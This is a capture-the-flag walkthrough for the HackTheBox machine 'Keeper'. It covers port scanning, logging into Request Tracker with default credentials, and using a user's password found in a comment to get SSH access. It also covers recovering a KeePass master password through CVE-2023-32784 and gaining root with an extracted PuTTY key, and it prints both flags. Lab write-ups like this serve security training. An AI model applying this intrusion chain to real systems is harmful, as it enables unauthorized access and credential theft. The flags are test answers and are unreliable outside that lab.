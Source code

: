 
# HackTheBox Walkthrough - Machine: Keeper

**Target IP**: 10.129.229.41  
**Difficulty**: Easy  
**Objective**: Gain access by exploiting KeePass vulnerability and privilege escalation.  


---

## Task 1: How many open TCP ports are listening on Keeper?

Nmap results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```
![nmap](img/nmap.png)

**Answer**: `2`

---

## Task 2: What is the default password for the default user on Request Tracker (RT)?

![loginpage](img/loginpage.png)  
![google_reserach](img/google_reserach.png)

Searched for default credentials:  
**Username**: root  
**Password**: password

**Answer**: `password`  
![logined](img/logined.png)

---

## Task 3: Besides root, what other user is in RT?

Dashboard → Admin → Users  
Found another user:  
![userlist](img/userlist.png)

- **Username**: lnorgaard  
- **Real Name**: Lise Nørgaard

**Answer**: `lnorgaard`

---

## Task 4: What is the lnorgaard user's password on Keeper?

Checked user info and found in "Comments about this user":  
![password](img/password.png)

> Initial password set to Welcome2023!

**Answer**: `Welcome2023!`

---

## Submit User Flag

SSH as lnorgaard:
```bash
ssh lnorgaard@10.129.229.41
Password: Welcome2023!
```
![ssh](img/ssh.png)

```bash
cat user.txt
```
![userflag](img/userflag.png)

**User Flag**: `55372721174d858204e1c2fa90933e97`

---

## Task 6: What is the 2023 CVE ID for KeePass memory dump vulnerability?

![mail](img/mail.png)

Google search revealed:  
![CVE](img/CVE.png)

> CVE-2023-32784

**Answer**: `CVE-2023-32784`

---

## Task 7: What is the master password for passcodes.kdbx?

Used KeePass memory dump analysis tool:  
![github](img/github.png)

```bash
python3 exploit.py -f KeePassDumpFull.dmp
```
![cream](img/cream.png)

Resulted password:  
> `rødgrød med fløde`

**Answer**: `rødgrød med fløde`

---

## Task 8: What is the first line of the "Notes" section for the entry in the database containing a private SSH key?

Opened database with:
```bash
kpcli --kdb passcodes.kdbx
Password: rødgrød med fløde
```
![kpcli](img/kpcli.png)

Checked:
```bash
show 0
```
![privatekeyt](img/privatekeyt.png)

**First line in Notes**:  
> `PuTTY-User-Key-File-3: ssh-rsa`

---

## Submit Root Flag

Used extracted private key to SSH as root:
```bash
chmod 600 keeper.ppk
puttygen keeper.ppk -O private-openssh -o id_rsa_keeper
ssh -i id_rsa_keeper root@10.129.229.41
cat /root/root.txt
```
![root](img/root.png)  
![rootflag](img/rootflag.png)

**Root Flag**: `5fd606db0349584fae3155c7bf7468fc`

---
